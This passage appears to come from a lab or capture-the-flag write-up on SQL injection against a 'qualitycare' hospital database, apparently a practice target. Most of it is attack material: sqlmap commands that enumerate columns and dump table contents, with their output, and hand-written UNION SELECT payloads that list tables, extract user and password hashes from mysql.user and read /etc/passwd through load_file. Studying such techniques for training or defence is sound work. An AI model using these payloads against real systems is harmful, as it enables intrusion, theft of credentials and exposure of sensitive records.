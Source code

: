 checking other tables and columns

`sqlmap -u ${URL} --batch -D qualitycare -T hospitals --columns`

```bash
Database: qualitycare
Table: hospitals
[2 columns]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| id     | int(11)      |
| name   | varchar(255) |
+--------+--------------+
```

* dump the selected values

`sqlmap -u ${URL} --batch -D qualitycare -T hospitals -C id,name --dump`

```bash
Database: qualitycare
Table: hospitals
[4 entries]
+----+-------------------+
| id | name              |
+----+-------------------+
| 1  | armsdon           |
| 2  | tadfield          |
| 3  | walmington-on-sea |
| 4  | fitton            |
+----+-------------------+
```

After login with valid user, we can see that is still possible to run a `SQL UNION` injection attack

```bash

' ORDER by 9 #

' UNION SELECT 1,2,3,4,5,6,7,8,group_concat(table_name) FROM information_schema.tables WHERE table_schema=database()#

> hospitals,patients,users


' UNION SELECT 1,2,User,Password,5,6,7,8,9 FROM mysql.user WHERE user="root"#

' UNION SELECT 1,2,User,Password,5,6,7,8,9 FROM mysql.user#

' UNION SELECT 1,Password,User,4,5,6,7,8,9 FROM mysql.user WHERE user="root"#


additional info - https://resources.infosecinstitute.com/topic/anatomy-of-an-attack-gaining-reverse-shell-from-sql-injection/

' UNION SELECT 1,user(),database(),version(),5,6,7,8,9 #

qualitycare
root@localhost 

session_user(),current_user():

version()

load_file(/etc/passwd)

```